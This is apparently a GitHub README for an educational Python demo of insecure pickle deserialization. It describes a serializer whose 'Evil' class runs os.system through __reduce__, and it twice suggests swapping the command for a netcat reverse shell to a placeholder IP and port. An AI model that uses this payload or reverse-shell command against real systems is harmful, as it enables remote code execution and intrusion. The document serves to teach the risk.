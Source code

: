 
# **Insecure_Deserialization**

## **Overview**
`Insecure_Deserialization` is a simple Python program designed to demonstrate and explore the concept of insecure deserialization in a hands-on and practical way. The program includes a **serializer** and a **deserializer** to showcase how serialized objects can be manipulated and executed.

This program is primarily for educational purposes, aiming to provide insights into the risks and potential exploitation of insecure deserialization. Additionally, it can be adapted to execute a reverse shell by replacing the default command (`whoami`) with something like `nc <ip> <port> -e /bin/bash`.


## **Features**
- **Serialization (`serializer.py`)**:
  - Encodes an object containing a malicious payload into a serialized format.
  - Outputs the serialized payload in Base64 format.

- **Deserialization (`deserializer.py`)**:
  - Decodes and executes the serialized payload.

- **Custom Commands**:
  - Modify the default `whoami` command in the serializer to execute custom shell commands or even establish a reverse shell.


## **Usage**
### **1. Serialization**
Run the `serializer.py` script to generate a malicious payload:

```
python serializer.py
```

### **2. Deserialization**
Copy the serialized Base64 string and run the `deserializer.py` script. Paste the string as input when prompted:

```
python deserializer.py
```

## **Modifying the Payload**
The default payload executes the `whoami` command. To change the command:

1. Open `serializer.py`.
2. Modify the `return (os.system, ("whoami",))` line in the `Evil` class:
   
   ```
   return (os.system, ("<your_command>",))
   ```
3. For a reverse shell, you can use:
   
   ```
   return (os.system, ("nc <ip> <port> -e /bin/bash",))
   ```

## Example of use via terminal in kali linux (in this case, without venv):

<div align="center">
  <img src="https://github.com/user-attachments/assets/fda334c0-a684-496f-8185-c6ea203e89fc">
</div>


## **Warnings**
- **Educational Purposes Only**: This program is intended to teach the concept of insecure deserialization and should not be used for malicious purposes.
- **Security Risks**: The deserialization of untrusted data is a critical security risk. Avoid using insecure serialization methods like `pickle` in production applications.
- **Test Environment**: Always use this program in a controlled and isolated environment, such as a virtual machine or sandbox.


## **How It Works**
1. The **`Evil` class** in `serializer.py` uses the `__reduce__` method to define a malicious command.
2. The `pickle.dumps` function serializes the `Evil` object.
3. The serialized payload is Base64-encoded and displayed.
4. In `deserializer.py`, the Base64-encoded payload is decoded and deserialized using `pickle.loads`, triggering the execution of the malicious command.


## **Disclaimer**
This program is for educational and testing purposes only. The author is not responsible for any misuse of this code.


## **Setting Up the Environment**

To ensure compatibility and proper setup, it is recommended to use a virtual environment (**venv**). Follow the steps below to create and activate your own virtual environment:

### **1. Create a Virtual Environment**
Run the following command to create a virtual environment in the project directory:

```
python -m venv venv
```

### **2. Activate the Virtual Environment**
Activate the virtual environment based on your operating system:

- **On Windows**:
  ```
  venv\Scripts\activate
  ```
- **On Linux/MacOS**:
  ```
  source venv/bin/activate
  ```

### **3. Deactivate the Virtual Environment**
When you're done working on the project, deactivate the virtual environment by running:

```bash
deactivate
```

---

### **Note on Virtual Environments**
The virtual environment (**venv**) is not included in this repository to reduce its size and avoid compatibility issues across different operating systems. Instead, you can generate it locally by following the steps above. 
